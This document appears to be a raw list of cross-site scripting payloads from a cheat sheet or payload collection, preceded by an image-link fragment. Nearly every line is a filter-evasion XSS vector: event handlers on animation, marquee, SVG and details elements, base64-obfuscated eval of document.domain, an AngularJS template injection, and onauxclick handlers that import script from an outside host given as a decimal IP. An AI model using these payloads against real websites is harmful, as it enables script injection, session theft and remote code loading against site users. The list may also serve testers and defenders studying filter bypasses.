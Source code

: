 <style>@keyframes a{}b{animation:a;}</style><b/onanimationstart=prompt`${document.domain}&#x60;>
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>
<svg><circle><set onbegin=prompt(1) attributename=fill>
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
"%3balert`1`%3b"
asd"`> onpointerenter=x=prompt,x`XSS`
<x onauxclick=import('//1152848220/')>click
<x onauxclick=a=alert,a(domain)>click
<x onauxclick=import('//1152848220/')>click
<x onauxclick=import('//xss/')>click
\"<>onauxclick<>=(eval)(atob(`YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==`))>+<sss
{{constructor.constructor(alert`1`)()}}
javascript:new%20Function`al\ert\`1\``;

